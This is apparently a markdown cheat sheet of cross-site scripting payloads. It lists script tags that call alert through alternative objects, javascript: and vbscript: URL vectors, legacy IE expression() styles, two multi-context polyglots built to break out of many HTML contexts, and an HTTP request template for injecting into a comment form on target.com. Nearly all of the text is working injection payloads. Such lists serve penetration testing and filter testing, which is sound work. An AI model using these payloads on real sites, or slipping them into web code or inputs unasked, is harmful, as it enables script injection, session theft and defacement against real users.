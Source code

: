 ### Alternative Objects
```javascript
<script>self['alert'](document.domain)</script>
<script>top['alert'](document.domain)</script>
<script>this['alert'](document.domain)</script>
<script>frames['alert'](document.domain)</script>
```

---

## 📛 Classic & Legacy Vectors

### Protocol-Based
```html
<a href="javascript:alert(1)">Click</a>
<iframe src="javascript:alert(1)">
```

### IE-Specific (Legacy)
```html
<a href="vbscript:MsgBox(1)">XSS</a>
<div style="xss:expression(alert(1))">
```

---

## 🔄 Polyglot Payloads

### Multi-Context Polyglot
```html
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

### Another Polyglot
```html
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```

---

## 📦 Template for Lab Work

### Basic Test Request
```http
POST /comment.php HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Cookie: session=abc123

comment=TEST&post_id=123
```
